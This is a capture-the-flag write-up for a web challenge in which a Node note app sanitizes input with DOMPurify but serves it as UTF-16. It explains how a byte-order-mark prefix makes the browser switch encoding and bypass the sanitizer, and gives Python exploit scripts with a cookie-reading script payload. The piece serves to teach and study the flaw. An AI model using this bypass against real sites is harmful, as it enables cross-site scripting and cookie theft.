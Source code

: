 These XSS vectors are getting ridiculous! So I made a secure note app. The only NPM dependency is DOMPurify, and I directly store the output of DOMPurify.sanitize and serve that back, so it has to be secure, right? It's barely 16 LoC!

![Alt text](image-1.png)

This challenge is a really simple server but very hard to exploit.
The following is how the server is built:

```js
const DOMPurify = require('dompurify')(new (require('jsdom').JSDOM)('').window); // the only dependency!
require('fs').mkdirSync('notes', { recursive: true });
require('http').createServer((req, res) => { try {
    if (req.url === "/") {
        res.setHeader('Content-Type', 'text/html');
        res.end(`<textarea id="content"></textarea><br><button onclick="location='/submit?'+encodeURIComponent(content.value)">Submit`)
    } else if (req.url.startsWith("/submit")) {
        const content = decodeURIComponent(req.url.split('submit?')[1]);
        const id = require('crypto').randomBytes(16).toString('hex');
        require('fs').writeFileSync(`notes/${id}.html`, DOMPurify.sanitize(content), "utf-16le");
        res.setHeader("Location", `/notes/${id}`); res.statusCode = 302; res.end();
    } else if (req.url.startsWith("/notes/")) {
        const id = (req.url.split('/notes/')[1]).match(/^[a-f0-9]{32}$/);
        res.setHeader('Content-Type', 'text/html; charset=utf-16le');
        res.end(require('fs').readFileSync(`notes/${id}.html`));
} } catch(e) {console.log(e)}}).listen(1337);
```

It takes an input and makes a request to submit which will create a html file with the encoding `utf-16le` after being sanitized by DOMPurify `DOMPurify.sanitize(content)`.

Then we get an id of a note, and we can see the note content.

There is a bot that accepts a note id and browses to it. The flag is probably in the bot cookie so our job is to build a XSS that bypasses DOMPurify and sends the cookie to a controlled server.

There is a thing called BOM sniff which is mention here: <https://stackoverflow.com/a/7103606> and here: <https://html.spec.whatwg.org/multipage/parsing.html#determining-the-character-encoding> point 1.

Basically what it tells is that its not practical in some cases to determine the encoding before parsing the document. There is a two-pass mechanism, the first will try to find the right encoding for the document if the user agent discovers a character encoding declaration that conflicts with this information, then the parser can get reinvoked to perform a parse of the document with the real encoding.

The user agents use a algorithm called encoding sniffing algorithm to determine the character encoding to use when decoding the document. Here is the table for the BOM Sniffing, <https://encoding.spec.whatwg.org/#bom-sniff>. Basically if we add the `0xfe 0xff` (utf-16 big endian) in the beginning of the payload and encode with utf-16 little endian we can bypass the DOMPurify and the browser will overwrite the encoding to big endian since it contains a different encoding in the first bytes.

In addition to the "header" we need to change the order of the bytes for each character if we encode initially with little endian:

```py
payload = "\ufeff<script>document.write(document.cookie)</script>"
be = payload.encode("utf-16-le")
swapped = b"".join(bytes([y, x]) for x, y in zip(be[::2], be[1::2]))
```

or just encode with big endian:

```py
payload = "\ufeff<script>document.write(document.cookie)</script>"
be = payload.encode("utf-16-be")
```

Then we can send the payload decoded to little endian since it will then encode it again when we send it:

```py
note = requests.post(
   "https://skandale--bonez-mc-2157.ctf.kitctf.de/submit?" + swapped.decode("utf-16-le"),
).url
```

Final script:

```
import requests

payload = "\ufeff<script>document.write(document.cookie)</script>"
be = payload.encode("utf-16-be")
note = requests.post(
   "https://another-one-bites-the-dust--jordin-sparks-5885.ctf.kitctf.de/submit?" + be.decode("utf-16-le"),
).url

print(note)

```

*Note: Don't do utf-16 because apparently dompurify + chrome cannot securely handle utf-16!!!*

![Alt text](image.png)